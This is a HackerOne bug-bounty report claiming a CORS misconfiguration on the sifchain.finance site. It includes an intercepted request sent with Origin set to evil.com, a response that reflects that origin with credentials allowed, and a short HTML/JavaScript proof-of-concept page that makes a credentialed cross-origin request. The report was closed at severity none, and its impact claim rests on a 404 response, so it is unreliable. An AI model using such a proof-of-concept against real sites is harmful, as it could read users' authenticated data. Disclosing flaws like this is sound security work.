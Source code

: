 # Cross Origin Resource Sharing Misconfiguration | Lead to sensitive information.

## Report Details
- **Report ID**: 1189363
- **URL**: https://hackerone.com/reports/1189363
- **State**: Closed
- **Severity**: none
- **Submitted**: 2021-05-09T09:45:04.152Z
- **Disclosed**: 2021-05-13T03:32:40.744Z

## Reporter
- **Username**: sudhakarsurya
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: sifchain

## Vulnerability Information
hii team,
 i found a cors bug in your https://sifchain.finance/  website  .

 Steps To Reproduce:
#  1. goto  https://sifchain.finance/     website  and enter email and  click signup.
# 2. intercept via burp ,you  will get a request .  send to repeater.
# 3.change the request as 

 POST /==wp-json== HTTP/2
Host: sifchain.finance
Cookie: __cfduid=d4eb7f6f55c752d2db3148265a583b3381620281228; amplitude_id_fef1e872c952688acd962d30aa545b9esifchain.finance=eyJkZXZpY2VJZCI6ImUyMzY5ZDM2LTFlZGItNDY4ZS1iZGY1LTlkYmIzZTc0YjY3YVIiLCJ1c2VySWQiOm51bGwsIm9wdE91dCI6ZmFsc2UsInNlc3Npb25JZCI6MTYyMDM1OTc3NDA5OSwibGFzdEV2ZW50VGltZSI6MTYyMDM1OTc3NTQ1NiwiZXZlbnRJZCI6MSwiaWRlbnRpZnlJZCI6MSwic2VxdWVuY2VOdW1iZXIiOjJ9; _ga=GA1.2.1872300780.1620359778
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Origin: https://evil.com
Referer: https://sifchain.finance/
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

EMAIL=loyixac322%40ffuqzt.com&_mc4wp_honeypot=&_mc4wp_timestamp=1620546910&_mc4wp_form_id=204&_mc4wp_form_element_id=mc4wp-form-1
## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]


#4.the response is,

HTTP/2 404 Not Found
Date: Sun, 09 May 2021 08:09:06 GMT
Content-Type: application/json; charset=UTF-8
Strict-Transport-Security: max-age=15552000; includeSubDomains
Vary: Accept-Encoding
X-Hacker: If you're reading this, you should visit automattic.com/jobs and apply to join the fun, mention this header.
Host-Header: WordPress.com
X-Robots-Tag: noindex
Link: <https://sifchain.finance/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Access-Control-Allow-Origin: ==https://evil.com==
Access-Control-Allow-Methods: ==OPTIONS, GET, POST, PUT, PATCH, DELETE==
Access-Control-Allow-Credentials: ==true==
Vary: Origin
X-Ac: 3.bom _atomic_dca
Cf-Cache-Status: DYNAMIC
Cf-Request-Id: 09f1c54e890000e2b5f2b9d000000001
Expect-Ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Server: cloudflare
Cf-Ray: 64c97190df83e2b5-NAG

{"code":"rest_no_route","message":"No route was found matching the URL and request method.","data":{"status":404}}

   
#5.In response headers you can see headers:
  
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Methods: OPTIONS, GET, POST, PUT, PATCH, DELETE
Access-Control-Allow-Credentials: true

#6.So you can write exploit:

<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://sifchain.finance/wp-json", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS PoC Exploit </h2>
      
      <div id="demo">
         <button type="button" onclick="cors()">Exploit</button>
      </div>
   </body>
</html>

## Impact

Attacker would treat many victims to visit attacker's website, if victim is signup, then his personal information is recorded in attacker's server.

attchments:

## Attachments
- request.jpg
- changed__req.jpg
- bandicam_2021-05-09_09-06-39-753.jpg
